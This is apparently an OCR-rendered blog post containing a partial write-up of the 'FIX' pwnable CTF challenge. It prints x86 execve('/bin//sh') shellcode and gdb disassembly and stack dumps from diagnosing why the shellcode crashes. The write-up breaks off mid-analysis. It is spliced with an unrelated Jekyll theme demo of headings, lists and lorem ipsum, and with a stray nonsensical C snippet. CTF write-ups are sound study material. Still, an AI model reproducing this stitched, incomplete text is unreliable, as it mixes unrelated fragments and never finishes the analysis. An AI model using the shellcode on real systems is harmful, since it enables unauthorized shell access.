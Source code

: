 ```yaml
---
layout: post
title:  "Pwnable: FIX Write-up"
description: Write-up of "FIX" problem
img: no image
date: 2016-03-07  +0200
---
```


```c
private void test(){
printf(..);
}
```

If you analyze binary file, you could figure out that we could modify 1 byte of shellcode, and we must leverage this vulnerability to obtain privileged shell.
The shellcode is embedded in the binary and I have checked whether it is valid shellcode as below:

> xor    %eax,%eax  
> push   %eax  
> push   $0x68732f2f  
> push   $0x6e69622f  
> mov    %esp,%ebx  
> push   %eax  
> push   %ebx  
> mov    %esp,%ecx  
> mov    $0xb,%al  
> int    $0x80  

Indeed it is valud shellcoded.
To briefly explain meaning of "push $0x68732f2f" and "push $0x6e69622f".
This is very basic technique to create shellcode. It embeds necessary strings in the exploit code as follow:

> push '/' ; is push 0x2f  
> push 'b' ; is push 0x62  
> push 'i' ; is push 0x69  
> push 'n' ; is push 0x6e  
> push '/' ; is push 0x2f  
> push '/' ; is push 0x2f  
> push 's' ; is push 0x73  
> push 'h' ; is push 0x68  

However, even if it is valid shellcode, If you execute the program, it crashes!!!
You need to analyze why this is happening..
I started analyzing using gdb.
Let's disam shellcode function.

> (gdb) disas shellcode  
> Dump of assembler code for function shellcode:  
> 0x080484e4 <+0>: push ebp  
> 0x080484e5 <+1>: mov ebp,esp  
> 0x080484e7 <+3>: sub esp,0x38  
> 0x080484ea <+6>: mov DWORD PTR [esp+0x4],0x804a024  
> 0x080484f2 <+14>: lea eax,[ebp-0x1c]  
> 0x080484f5 <+17>: mov DWORD PTR [esp],eax  
> 0x080484f8 <+20>: call 0x80483e0 <strcpy@plt>  
> 0x080484fd <+25>: lea eax,[ebp-0x1c]  
> 0x08048500 <+28>: lea edx,[eax+0x20]  
> 0x08048503 <+31>: lea eax,[ebp-0x1c]  
> 0x08048506 <+34>: mov DWORD PTR [edx],eax  
> 0x08048508 <+36>: mov DWORD PTR [esp],0x80486a0  
> 0x0804850f <+43>: call 0x80483f0 <puts@plt>  
> 0x08048514 <+48>: leave  
> 0x08048515 <+49>: ret  
> End of assembler dump.  

break at shellcode+6 and evaluate stack.

> (gdb) x/10i *shellcode
> 0x80484e4 <shellcode>: push ebp
> 0x80484e5 <shellcode+1>: mov ebp,esp
> 0x80484e7 <shellcode+3>: sub esp,0x38
> => 0x80484ea <shellcode+6>: mov DWORD PTR [esp+0x4],0x804a024
> 0x80484f2 <shellcode+14>: lea eax,[ebp-0x1c]
> 0x80484f5 <shellcode+17>: mov DWORD PTR [esp],eax
> 0x80484f8 <shellcode+20>: call 0x80483e0 <strcpy@plt>
> 0x80484fd <shellcode+25>: lea eax,[ebp-0x1c]
> 0x8048500 <shellcode+28>: lea edx,[eax+0x20]
> 0x8048503 <shellcode+31>: lea eax,[ebp-0x1c]

> (gdb) x/10wx $ebp
> 0xfff7bed8: 0xfff7bf08####(old ebp) 0x080485c7####(ret) 0x0804874e 0xfff7bef8
> 0xfff7bee8: 0xf772cff4 0xf75bd1a5 0xf774f660 0x00000000
> 0xfff7bef8: 0x000000c9 0x0000000d

## Headings

Headings by default:

## Heading first level
### Heading second level
#### Heading third level

{% highlight markdown %}
## Heading first level
### Heading second level
#### Heading third level
{% endhighlight %}

## Lists

Unordered list example:
* Unordered list item 1
* Unordered list item 2
* Unordered list item 3
* Unordered list item 4

Ordered list example:
1. Ordered list item 1
2. Ordered list item 1
3. Ordered list item 1
4. Ordered list item 1

{% highlight markdown %}
* Unordered list item 1
* Unordered list item 2

1. Order list item 1
2. Order list item 1
{% endhighlight %}


## Quotes

A quote looks like this:

> Lorem ipsum dolor sit amet, consectetur adipisicing elit, sed do eiusmod tempor
incididunt ut labore et dolore magna.

{% highlight markdown %}
> Lorem ipsum dolor sit amet, consectetur adipisicing elit, sed do eiusmod tempor
incididunt ut labore et dolore magna.
{% endhighlight %}
